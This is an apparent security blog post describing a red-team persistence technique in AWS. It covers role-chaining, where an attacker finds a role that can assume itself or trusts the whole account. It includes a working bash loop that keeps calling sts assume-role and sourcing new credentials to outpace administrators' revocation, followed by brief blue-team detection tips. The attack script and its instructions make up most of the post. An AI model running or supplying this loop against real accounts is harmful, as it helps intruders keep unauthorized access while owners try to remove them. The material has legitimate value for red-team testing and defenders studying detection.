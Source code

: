 ```yaml
---
title: "Role-chaining to stay persistent in AWS environment"
date: 2022-09-23T17:41:53+10:00
draft: false
---
```


**[UPDATE]**: With the [recent change in AWS assume role](https://aws.amazon.com/blogs/security/announcing-an-update-to-iam-role-trust-policy-behavior/), the only way this would work is when the role allow itself or allow the entire account to assume into (surprisingly a common mistake). 

Says... you have access to iam or role, administrators are onto you and trying to remove your access by revoking roles, removing iam users you created, etc..  How do you persist? Here is one way to do it...

## Red team: 

 ~~Find a role with admin privilege and run the following script to assume itself (Allowed by default)~~

(update 2022): Find a role (using `aws iam list-roles`) in current account, add rule that allow the role to assume itself (or if the role has trust relationship set to `arn:aws:iam::{current_accountid}:root` (often happen) - and plug it in the script below. 

```bash
while [ 1 ]; \
do echo "[+] Acquiring new token using sts assume-role"; \
aws sts assume-role  --role-arn arn:aws:iam::{accountid}:role/{roleid} --role-session-name test`date +'%s'` --duration 3600 | \
jq -r '.Credentials|"export AWS_ACCESS_KEY_ID=\(.AccessKeyId)\nexport AWS_SECRET_ACCESS_KEY=\(.SecretAccessKey)\nexport AWS_SESSION_TOKEN=\(.SessionToken)"' > tmp.sh; \
source tmp.sh; \
aws sts get-caller-identity; \
done
```

You would be surprised that often times there are service roles which are misconfigured by some developers and end up granting the entire account ability to assume into that role. In many instances it could be used for privilege escalation but in this instance we just wanna stay persistent a bit longer. This script runs a loop to continously assume into that role by itself. The duration cannot be set higher than 3600 seconds because that is the maximum duration you can assume into another role when you are "role-chaining". 

The script works because there i a race condition happens between this script and when administrator hit the "revoke previous session" button which leads to creation of an inline IAM policy to revoke old sessions.  

### Blue team tips

 - Detect automated scripts by looking at big spike of AssumeRole events in Cloudtrail log
 - Use revoke token functionality and THEN modify the Revoke IAM policy with a timestamp in a couple of minutes into the future to make sure the changed is propagated and attacker cannot "renew" his/her token.
